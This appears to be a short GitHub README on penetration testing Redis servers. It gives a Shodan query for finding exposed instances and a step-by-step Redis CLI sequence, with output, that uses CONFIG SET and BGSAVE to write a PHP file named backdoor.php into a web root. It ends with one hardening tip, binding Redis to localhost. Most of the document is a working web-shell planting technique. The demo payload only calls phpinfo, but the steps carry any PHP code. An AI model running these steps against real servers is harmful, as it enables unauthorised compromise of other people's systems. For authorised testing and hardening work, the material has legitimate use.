 # Redisturb
## *Redis.io* Penetration Testing 
![GitHub Logo](/Redis_Logo.png)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data like messages, cache, cookie, etc.

I beg you to read [url:redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production mode.

##### Discover misconfigured *Redis.io* using *Shodan* and *Nmap*

*Shodan* give us a powerful tool to find several misconfigured servers.

` { product:"Redis key-value store", port:"6379" } `

##### Upload malicious file
Requirement : access to CONFIG
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

#### Security Best Practices
Add to **redis.conf**

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).
